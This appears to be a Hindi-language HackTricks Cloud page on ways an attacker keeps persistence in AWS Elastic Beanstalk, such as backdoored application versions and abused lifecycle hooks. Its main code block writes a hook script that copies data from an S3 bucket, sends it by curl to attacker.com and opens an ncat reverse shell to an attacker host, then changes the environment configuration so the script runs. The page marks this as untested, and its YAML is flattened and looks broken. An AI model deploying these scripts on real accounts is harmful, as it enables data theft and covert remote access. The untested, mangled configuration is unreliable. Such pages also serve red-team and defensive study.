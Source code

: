 # AWS - Elastic Beanstalk पर्सिस्टेंस

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें.

</details>

## Elastic Beanstalk

अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-pentesting/aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../../aws-pentesting/aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

### इंस्टेंस में पर्सिस्टेंस

AWS अकाउंट के अंदर पर्सिस्टेंस बनाए रखने के लिए, कुछ **पर्सिस्टेंस मैकेनिज्म को इंस्टेंस के अंदर पेश किया जा सकता है** (cron job, ssh key...) ताकि हमलावर इसे एक्सेस कर सके और मेटाडेटा सर्विस से IAM रोल **क्रेडेंशियल्स चुरा सके**.

### वर्जन में बैकडोर

एक हमलावर S3 रेपो के अंदर कोड में बैकडोर डाल सकता है ताकि यह हमेशा अपना बैकडोर और अपेक्षित कोड चलाए.

### नया बैकडोर्ड वर्जन

वास्तविक वर्जन पर कोड बदलने के बजाय, हमलावर एप्लिकेशन का एक नया बैकडोर्ड वर्जन डिप्लॉय कर सकता है.

### कस्टम रिसोर्स लाइफसाइकल हुक्स का दुरुपयोग

{% hint style="info" %}
TODO: परीक्षण करें
{% endhint %}

Elastic Beanstalk लाइफसाइकल हुक्स प्रदान करता है जो आपको इंस्टेंस प्रोविजनिंग और टर्मिनेशन के दौरान कस्टम स्क्रिप्ट्स चलाने की अनुमति देते हैं। एक हमलावर **लाइफसाइकल हुक को कॉन्फ़िगर कर सकता है ताकि यह नियमित रूप से एक स्क्रिप्ट चलाए जो डेटा एक्सफिल्ट्रेट करती है या AWS अकाउंट तक पहुँच बनाए रखती है**.
```bash
bashCopy code# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
AWSEBAutoScalingGroup:
Metadata:
AWS::ElasticBeanstalk::Ext:
TriggerConfiguration:
triggers:
- name: stealthy-lifecycle-hook
events:
- "autoscaling:EC2_INSTANCE_LAUNCH"
- "autoscaling:EC2_INSTANCE_TERMINATE"
target:
ref: "AWS::ElasticBeanstalk::Environment"
arn:
Fn::GetAtt:
- "AWS::ElasticBeanstalk::Environment"
- "Arn"
stealthyLifecycleHook:
Type: AWS::AutoScaling::LifecycleHook
Properties:
AutoScalingGroupName:
Ref: AWSEBAutoScalingGroup
LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
NotificationTargetARN:
Ref: stealthy-lifecycle-hook
RoleARN:
Fn::GetAtt:
- AWSEBAutoScalingGroup
- Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```
<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
